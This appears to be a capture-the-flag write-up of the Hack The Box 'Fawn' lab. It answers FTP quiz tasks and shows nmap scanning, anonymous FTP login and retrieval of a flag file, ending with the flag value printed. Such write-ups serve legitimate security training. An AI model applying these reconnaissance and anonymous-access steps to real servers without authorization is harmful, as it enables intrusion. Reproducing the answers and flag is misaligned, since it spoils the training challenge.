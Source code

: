 ```yaml
---
title: "[HTB] Fawn"
author: "Wook Lee"
date: "2024-06-17"
---
```


> Hopefully one day I will become very good at CTFs.

##### TASK 1

What does the 3-letter acronym FTP stand for?

File Transfer Protocol
TASK 2

Which port does the FTP service listen on usually?

21
TASK 3

What acronym is used for the secure version of FTP?

SFTP
Secure File Transfer Protocol. Designed by the Internet Engineering Task Force as an extension of Secure Shell (SSH).

TASK 4

What is the command we can use to send an ICMP echo request to test our connection to the target?

ping
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ ping 10.129.67.107
PING 10.129.67.107 (10.129.67.107) 56(84) bytes of data.
64 bytes from 10.129.67.107: icmp_seq=1 ttl=63 time=8.68 ms
64 bytes from 10.129.67.107: icmp_seq=2 ttl=63 time=8.81 ms
64 bytes from 10.129.67.107: icmp_seq=3 ttl=63 time=8.87 ms
64 bytes from 10.129.67.107: icmp_seq=4 ttl=63 time=8.68 ms
^C
--- 10.129.67.107 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 8.679/8.760/8.873/0.082 ms
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$
TASK 5

From your scans, what version is FTP running on the target?

vsftpd 3.0.3
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ nmap -sV 10.129.67.107
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-17 05:49 BST
Nmap scan report for 10.129.67.107
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$
TASK 6

From your scans, what OS type is running on the target?

Unix
TASK 7

What is the command we need to run in order to display the 'ftp' client help menu?

ftp -h
TASK 8

What is username that is used over FTP when you want to log in without having an account?

anonymous
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ ftp 10.129.67.107
Connected to 10.129.67.107.
220 (vsFTPd 3.0.3)
Name (10.129.67.107:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
TASK 9

What is the response code we get for the FTP message 'Login successful'?

230
230 Login successful.
TASK 10

There are a couple of commands we can use to list the files and directories available on the FTP server. One is dir. What is the other that is a common way to list files on a Linux system.

ls
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ ftp 10.129.67.107
Connected to 10.129.67.107.
220 (vsFTPd 3.0.3)
Name (10.129.67.107:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 32 Jun 04 2021 flag.txt
226 Directory send OK.
ftp>
TASK 11

What is the command used to download the file we found on the FTP server?

get
ftp> get flag.txt
local: flag.txt remote: flag.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for flag.txt (32 bytes).
226 Transfer complete.
32 bytes received in 0.00 secs (32.7225 kB/s)
ftp>
SUBMIT THE FLAG

Submit root flag

035db21c881520061c53e0536e44f815
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ ls
Desktop flag.txt my_data Templates
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$ cat flag.txt
035db21c881520061c53e0536e44f815
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.27]─[leewookb@htb-psvucohdrg]─[~]
└──╼ [★]$
